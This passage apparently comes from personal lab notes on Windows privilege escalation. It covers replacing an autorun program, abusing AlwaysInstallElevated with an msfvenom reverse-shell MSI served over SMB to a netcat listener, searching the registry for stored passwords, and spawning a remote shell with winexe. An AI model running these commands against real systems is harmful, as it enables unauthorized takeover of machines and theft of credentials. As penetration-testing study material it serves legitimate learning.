so now we can overwrite the Executable by our reverse.exe
```bash
copy C:\PrivEsc\reverse.exe "C:\Program Files\Autorun Program\program.exe" /Y
```

windows when start will autorun the program with the last user privilege, in our case will be us so we will get normal shell, but if admin login then we reboot the system we can get shell

## AlwaysInstallElevated

from winpeas

![winpeas](image-11.png)

let's query this manualy with
```bash
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

from kali lets generate reverse.msi

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.9.5.46 LPORT=53 -f msi -o reverse.msi
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .
nc -lvnp 53
```

in windows 

```bash
copy \\10.9.5.46\kali\reverse.msi C:\PrivEsc\reverse.msi
msiexec /quiet /qn /i C:\PrivEsc\reverse.msi
```

# Passwords
## Registry

winpeas can help with that and we can query it manualy with
```bash
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
# Or query specific key
reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"
```

On kali we can spawn CMD with winexe
```bash
winexe -U 'admin%password' //10.10.78.130 cmd.exe/powershell.exe
# add --system for system shell
```
